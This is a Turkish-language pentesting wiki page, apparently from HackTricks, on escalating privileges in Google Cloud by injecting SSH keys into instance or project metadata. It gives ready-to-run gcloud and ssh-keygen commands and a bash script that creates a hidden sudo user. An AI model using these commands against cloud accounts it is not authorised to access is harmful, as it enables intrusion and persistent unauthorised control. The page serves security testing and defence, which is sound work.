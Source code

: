 # GCP - Özel SSH Metadata Ekle

{{#include ../../../../banners/hacktricks-training.md}}

## Metadata'yı Değiştirme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örnekte metadata değişikliği, **bir saldırgan gerekli izinleri elde ederse önemli güvenlik risklerine yol açabilir**.

### **Özel Metadata'ya SSH Anahtarlarının Dahil Edilmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Misafir Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) üzerinden betikler çalıştırır. Bunun kritik bir bileşeni, **yetkilendirilmiş SSH genel anahtarları** için örnek metadata uç noktasını **düzenli olarak kontrol etmek** üzere tasarlanmış [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dır.

Bu nedenle, eğer bir saldırgan özel metadata'yı değiştirebilirse, daemon'un yeni bir genel anahtar bulmasını sağlayabilir, bu da işlenip **yerel sisteme entegre edilecektir**. Anahtar, **mevcut bir kullanıcının** `~/.ssh/authorized_keys` dosyasına eklenecek veya anahtarın formatına bağlı olarak `sudo` ayrıcalıkları olan yeni bir kullanıcı oluşturulacaktır. Ve saldırgan, ana bilgisayarı tehlikeye atabilecektir.

### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki Mevcut SSH Anahtarlarını İnceleyin:**

- Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlamak üzere komutu çalıştırın. Çıktıdaki ilgili bölüm `metadata` altında, özellikle `ssh-keys` anahtarı altında olacaktır.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH anahtarlarının formatına dikkat edin: kullanıcı adı anahtarın önündedir ve iki nokta ile ayrılmıştır.

2. **SSH Anahtarı Metadata'sı için Bir Metin Dosyası Hazırlayın:**
- Kullanıcı adları ve bunlara karşılık gelen SSH anahtarlarının detaylarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, mevcut anahtarları korumak için önemlidir.
3. **Hedef Kullanıcı için Yeni Bir SSH Anahtarı Oluşturun (`alice` bu örnekte):**

- Hedef kullanıcı adıyla eşleşen yorum alanı (`-C`) ile yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Yeni genel anahtarı, örneğin metadata'da bulunan formatı taklit ederek `meta.txt` dosyasına ekleyin.

4. **Örneğin SSH Anahtarı Metadata'sını Güncelleyin:**

- Güncellenmiş SSH anahtarı metadata'sını örneğe uygulamak için `gcloud compute instances add-metadata` komutunu kullanın.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Yeni SSH Anahtarı ile Örneğe Erişim Sağlayın:**

- Yeni anahtarı kullanarak SSH ile örneğe bağlanın ve hedef kullanıcı bağlamında shell'e erişin (`alice` bu örnekte).

```bash
ssh -i ./key alice@localhost
sudo id
```

### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Proje Düzeyinde SSH Anahtarları <a href="#sshing-around" id="sshing-around"></a>

**Proje düzeyinde SSH anahtarları uygulayarak** bir bulut ortamında birden fazla Sanal Makineye (VM) SSH erişimini genişletmek mümkündür. Bu yaklaşım, projede açıkça proje genelinde SSH anahtarlarını engellemeyen herhangi bir örneğe SSH erişimi sağlar. İşte özet bir kılavuz:

1. **Proje Düzeyinde SSH Anahtarlarını Uygula:**

- `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine eklemek için `gcloud compute project-info add-metadata` komutunu kullanın. Bu işlem, SSH anahtarlarının projedeki tüm VM'ler tarafından tanınmasını sağlar, eğer bir VM "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmemişse.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Proje Genel Anahtarları Kullanarak Örneklerine SSH Bağlan:**
- Proje genelinde SSH anahtarları mevcut olduğunda, projedeki herhangi bir örneğe SSH ile bağlanabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
- Bir örneğe SSH ile bağlanmanın doğrudan bir yöntemi, `gcloud compute ssh [INSTANCE]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve proje düzeyinde ayarlanmış SSH anahtarlarını kullanarak erişim sağlamaya çalışır.

## Referanslar

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
